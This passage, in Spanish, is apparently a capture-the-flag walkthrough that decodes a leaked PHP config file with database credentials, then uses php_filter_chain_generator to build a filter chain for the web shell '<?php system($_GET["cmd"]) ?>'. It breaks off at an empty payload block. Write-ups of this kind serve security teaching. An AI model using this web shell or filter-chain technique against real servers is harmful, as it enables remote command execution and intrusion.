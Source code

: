 Si guardamos en un archivo decodificando con el siguiente comando
```bash
echo -n "PD9waHANCiRob3N0ID0gImxvY2FsaG9zdCI7DQokdXNlciA9ICJtYXJ0eSI7DQokcGFzcyA9ICJ0MW0zdHJhdmVsIjsNCiRkYiA9ICJoaWxsdmFsbGV5IjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkaG9zdCwgJHVzZXIsICRwYXNzLCAkZGIpOw0KaWYgKCEkY29ubikgew0KICAgIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCj8" | base64 -d > config.php
```

Ahora para ver el contendio ejecutamos el siguiente comando:
```bash
cat config.php -l php
```

Tenemos el siguiente codigo con credenciales que probaremos si son validas por **ssh**
```php
<?php
$host = "localhost";
$user = "marty";
$pass = "t1m3travel";
$db = "hillvalley";

$conn = mysqli_connect($host, $user, $pass, $db);
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
```

Probando esas credenciales no son validas por **ssh**
Ahora usaremos la siguiente herramienta para ejecucion de comandos con **php** [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator.git)
```bash
git clone https://github.com/synacktiv/php_filter_chain_generator.git --depth=1
```

Generamos la siguiente instruccion
```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]) ?>'
```

Tenemos el siguiente **payloda**
```bash
```